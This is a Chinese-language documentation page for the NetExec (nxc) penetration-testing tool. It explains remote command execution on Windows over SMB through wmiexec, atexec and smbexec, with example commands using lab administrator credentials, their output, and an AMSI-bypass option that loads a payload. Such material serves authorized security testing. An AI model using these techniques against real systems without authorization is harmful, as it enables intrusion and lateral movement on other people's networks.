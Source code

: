 # 执行远程命令

## 命令执行

在 Windows 系统上执行命令需要管理员凭证。

当认证成功且具有管理员权限时，nxc 会自动在输出中添加"(Pwn3d!)"（或你在配置中设置的其他值）来提示你。

## 执行方法

nxc 有三种不同的命令执行方法：

* `wmiexec` 通过 WMI 执行命令
* `atexec` 通过 Windows 任务计划程序调度任务来执行命令
* `smbexec` 通过创建和运行服务来执行命令

默认情况下，如果一种执行方法失败，nxc 会尝试使用其他方法。它按以下顺序尝试执行命令：

1. `wmiexec`
2. `atexec`
3. `smbexec`

如果你想强制 nxc 只使用一种执行方法，可以使用 `--exec-method` 参数指定。

## 执行命令

在下面的例子中，我们使用 `-x` 参数尝试在目标上执行 `whoami` 命令：

```
nxc smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x whoami
06-05-2016 14:34:35 nxc          192.168.10.11:445 WIN7BOX         [*] Windows 6.1 Build 7601 (name:WIN7BOX) (domain:LAB)
06-05-2016 14:34:35 nxc          192.168.10.11:445 WIN7BOX         [+] LAB\Administrator:P@ssw0rd (Pwn3d!)
06-05-2016 14:34:39 nxc          192.168.10.11:445 WIN7BOX         [+] Executed command 
06-05-2016 14:34:39 nxc          192.168.10.11:445 WIN7BOX         lab\administrator
06-05-2016 14:34:39 [*] KTHXBYE!
```

你也可以使用 `-X` 参数直接执行 PowerShell 命令：

```
nxc smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable'
06-05-2016 14:36:06 nxc          192.168.10.11:445 WIN7BOX         [*] Windows 6.1 Build 7601 (name:WIN7BOX) (domain:LAB)
06-05-2016 14:36:06 nxc          192.168.10.11:445 WIN7BOX         [+] LAB\Administrator:P@ssw0rd (Pwn3d!)
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         [+] Executed command 
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         Name                           Value
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         ----                           -----
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         CLRVersion                     2.0.50727.5420
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         BuildVersion                   6.1.7601.17514
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         PSVersion                      2.0
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         WSManStackVersion              2.0
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         PSCompatibleVersions           {1.0, 2.0}
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         SerializationVersion           1.1.0.1
06-05-2016 14:36:10 nxc          192.168.10.11:445 WIN7BOX         PSRemotingProtocolVersion      2.1
06-05-2016 14:36:10 [*] KTHXBYE!
```

### 绕过 AMSI

```
nxc smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable'  --amsi-bypass /path/payload
```
